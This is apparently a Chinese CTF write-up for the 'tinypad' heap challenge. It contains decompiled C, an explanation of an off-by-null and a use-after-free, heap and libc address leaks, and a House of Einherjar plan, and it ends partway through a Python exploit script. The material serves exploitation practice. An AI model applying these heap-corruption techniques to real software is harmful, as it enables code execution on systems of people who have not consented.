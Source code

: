 由于存在off by null，因此我们可以修改prev_size和prev_inuse并触发前向合并来造成overlapping。

最多能同时有4个chunk，最大的size为0x100。

edit功能比较复杂，在检验输入之后，会将该chunk用strcpy复制到tinypad偏移为0的位置进行操作，并且**edit的长度和已经写入的字符串的长度相等**，写入完成后才会将tinypad处的内容strcpy到chunk。由于strcpy会被\x00截断，因此如果该chunk中有地址的话，edit的长度会比较小。

```c
write_n((__int64)"(INDEX)>>> ", 11LL);    // Edit
idx = read_int();
if ( idx <= 0 || idx > 4 )
    goto LABEL_29;
if ( !*(_QWORD *)&tinypad[16 * idx + 0xF0] )
    goto LABEL_31;
c = '0';
strcpy(tinypad, *(const char **)&tinypad[16 * idx + 0xF8]);// edit时会将其复制到tinypad中进行操作
while ( toupper(c) != 'Y' )
{
    write_n((__int64)"CONTENT: ", 9LL);
    v6 = strlen(tinypad);
    writeln((__int64)tinypad, v6);          // 会先输出原有的content
    write_n((__int64)"(CONTENT)>>> ", 13LL);
    len = strlen(*(const char **)&tinypad[16 * idx + 0xF8]);// 直接取字符串的len值作为长度
    read_until((__int64)tinypad, len, '\n');// off by null
    writeln((__int64)"Is it OK?", 9LL);
    write_n((__int64)"(Y/n)>>> ", 9LL);
    read_until((__int64)&c, 1uLL, 0xAu);
}
strcpy(*(char **)&tinypad[16 * idx + 0xF8], tinypad);
writeln((__int64)"\nEdited.", 8LL);
```

同时释放的函数处也有些小问题（UAF），释放之后没有清空chunk指针，有悬挂指针。虽然有标志位让其在edit的时无法通过检查，但在菜单处没有检查，会照常输出content的内容。

```c
free(*(void **)&tinypad[16 * idx + 0xF8]);// 释放但没请0，不过有标志位edit时也能检查到，不过会照常输出
*(_QWORD *)&tinypad[16 * idx + 0xF0] = 0LL;// 0代表没使用
writeln((__int64)"\nDeleted.", 9LL);
```

在这里可以通过UAF泄露出当前的heapbase和libcbase。

一开始尝试释放两个unsorted bin chunk后，**一个的fd指向的是一个堆地址（下一个chunk的地址），另一个fd指向的是unsorted bin头**，通过菜单显示出来。在实际中发现这样需要让两个释放的chunk不连续，并且中间要隔着一个size<0x100的chunk，否则堆地址的低位会是\x00，输出不出来。

其实也可以通过释放两个fast bin chunk来泄露堆地址，释放一个unsorted bin chunk来泄露libc。

在泄露了libcbase和heapbase之后，可以通过House of Einherjar实现overlapping。之后通过fast bin attack修改__malloc_hook为onegadget应该就可以get shell了。不过由于此处edit的特殊性，无法用于修改hook（hook处全为'\x00'，因此len为0，不能写入东西），所以尝试overlapping到tinypad的位置，控制堆指针获得任意写。

这里可以利用edit来在tinypad处构造fake chunk，由于**edit会先在tinypad处写入数据**，因此我们可以在此处写入。除此之外**tinypad[0x110]开始就存放了chunk，tinypad[0x110]就是第一个chunk的size**，我们可以不用构造next chunk size。

为了控制堆指针，我们可以在0x602060处构造fake chunk，让其覆盖到堆指针(size位要为0x101)，并让第三个chunk的size为0x100。

```python
# House of einherjar

tinypad=0x602040

fake_chunk = tinypad+0x20 #0x602060
offset=heapbase-fake_chunk+0x50 #计算释放的idx2和fakechunk的偏移

add(0x48,'a'*0x48)#idx1 用于off by null
add(0xf0,'b'*0xf0)#idx2 用于触发house of einherjar
add(0x100,'c'*0x100)#idx3 让0x602160的位置是0x100，使得fake chunk的size和next chunk的presize一致
add(0xf0,'d'*0xf0)#idx4

#construct fake chunk
```
